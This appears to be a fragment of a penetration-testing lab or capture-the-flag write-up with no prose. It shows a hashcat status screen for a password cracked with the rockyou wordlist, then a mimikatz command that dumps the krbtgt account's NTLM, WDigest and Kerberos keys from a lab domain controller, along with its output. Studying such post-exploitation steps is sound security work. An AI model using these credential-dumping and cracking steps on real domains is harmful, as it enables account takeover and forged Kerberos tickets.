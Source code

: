 ```
Time.Estimated...: Mon Sep 12 13:15:44 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   494.9 kH/s (1.23ms) @ Accel:512 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests
Progress.........: 143360/14344385 (1.00%)
Rejected.........: 0/143360 (0.00%)
Restore.Point....: 142336/14344385 (0.99%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: albarran -> 260408
Hardware.Mon.#1..: Util: 94%
```

```
mimikatz # lsadump::lsa /inject /name:krbtgt 
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860 

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 72cd714611b64cd4d5550cd2759db3f6
    LM   :
  Hash NTLM: 72cd714611b64cd4d5550cd2759db3f6
    ntlm- 0: 72cd714611b64cd4d5550cd2759db3f6
    lm  - 0: aec7e106ddd23b3928f7b530f60df4b6 

 * WDigest
    01  d2e9aa3caa4509c3f11521c70539e4ad
    02  c9a868fc195308b03d72daa4a5a4ee47
    03  171e066e448391c934d0681986f09ff4
    04  d2e9aa3caa4509c3f11521c70539e4ad
    05  c9a868fc195308b03d72daa4a5a4ee47
    06  41903264777c4392345816b7ecbf0885
    07  d2e9aa3caa4509c3f11521c70539e4ad
    08  9a01474aa116953e6db452bb5cd7dc49
    09  a8e9a6a41c9a6bf658094206b51a4ead
    10  8720ff9de506f647ad30f6967b8fe61e
    11  841061e45fdc428e3f10f69ec46a9c6d 
    12  a8e9a6a41c9a6bf658094206b51a4ead
    13  89d0db1c4f5d63ef4bacca5369f79a55
    14  841061e45fdc428e3f10f69ec46a9c6d
    15  a02ffdef87fc2a3969554c3f5465042a
    16  4ce3ef8eb619a101919eee6cc0f22060
    17  a7c3387ac2f0d6c6a37ee34aecf8e47e
    18  085f371533fc3860fdbf0c44148ae730
    19  265525114c2c3581340ddb00e018683b
    20  f5708f35889eee51a5fa0fb4ef337a9b
    21  bffaf3c4eba18fd4c845965b64fca8e2 
    22  bffaf3c4eba18fd4c845965b64fca8e2
    23  3c10f0ae74f162c4b81bf2a463a344aa
    24  96141c5119871bfb2a29c7ea7f0facef
    25  f9e06fa832311bd00a07323980819074
    26  99d1dd6629056af22d1aea639398825b
    27  919f61b2c84eb1ff8d49ddc7871ab9e0
    28  d5c266414ac9496e0e66ddcac2cbcc3b
    29  aae5e850f950ef83a371abda478e05db 

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 79bf07137a8a6b8f
```